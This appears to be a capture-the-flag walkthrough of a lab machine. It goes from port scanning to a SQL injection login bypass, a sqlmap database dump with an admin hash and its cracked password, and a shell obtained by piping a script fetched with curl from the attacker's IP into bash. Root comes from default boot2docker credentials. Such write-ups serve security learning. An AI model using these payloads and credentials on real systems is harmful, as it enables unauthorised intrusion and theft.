Ports to check
ftp 21 - anonymous login is available but the only file is available

ssh 22 - need creds
rpc 139 - anonymous login not allowed
webpage 443 - cert shows subdomain admin.megalogistic.com. I accidently added an S to megalogistic and accessed a real website and almost pentested an actual website called megalogistics.com
Adding admin.megalogistic.com gives us a login page


smb 445 - anonymous login not allowed
winrm 5985 - need creds
Enumerating the web page
Admin subdomain but requires creds, name found on the blog page.
Brandon Sharp
Christine Rooster
Connor Hodson
Nothing else interesting so I mounted the ftp share so I can run strings on the big exe file.

I transferred the docker file to my windows machine and its just a normal docker toolbox so there will be nothing interesting here. It does have a version number which could be helpful. Looks like there's no obvious vulnerabilities though.

At this point I was stuck and looked back at the nmap scan, ssh is running OpenSSH for_Windows_7.7 and windows 7 is pretty outdated and I googled it and theres some known exploits for username enumeration but I couldnt find anything useful.
Login page has SQL injection that I missed.

We can sign in with this sql injection
admin'OR'1'='1'--

Dump the database with sqlmap. In order for this to work I had to change my burp request as it was getting connection refused.
I changed the host to include https:// before hand it was just admin.megalogistic.com. Changing it allowed sqlmap to work as expected.

sqlmap -r request.txt --dump --batch

admin hash 4a100a85cb5ca3616dcf137918550815

couldnt get john or hashcat to crack it but this website has the hash in the database
https://hashes.com/en/decrypt/hash
admin:iamzeadmin
We can sign into the admin portal using those creds but still no access to the machine.
Used guided mode for a hint, we can use os-shell to execute system commands. This is a windows machine with docker running linux. Which I should have realized from the sql error stating index.php was located in /var/www/admin

We can get a shell with curl
curl http://10.10.14.32:8000/pwn.sh | bash

There is a user but his directory is empty. Running linpeas finds us the user flag located at /var/lib/postgresql/user.txt.

I accidentally saw a write up on this when looking for priv esc. Some guy made a post show casing a “priv esc” but its just a guide on this machine sadly.
The priv esc is seeing the docker IP above and SSH in with default docker creds. username for the boot2docker default user is docker and the password is tcuser

I wouldnt have figured this out as ive never seen this before so i guess its a good thing I happened to stumble across the way.
We cd to c which has a clone of the windows machine containing the admin user and the root.txt file. Really lame priv esc but I learned something new.
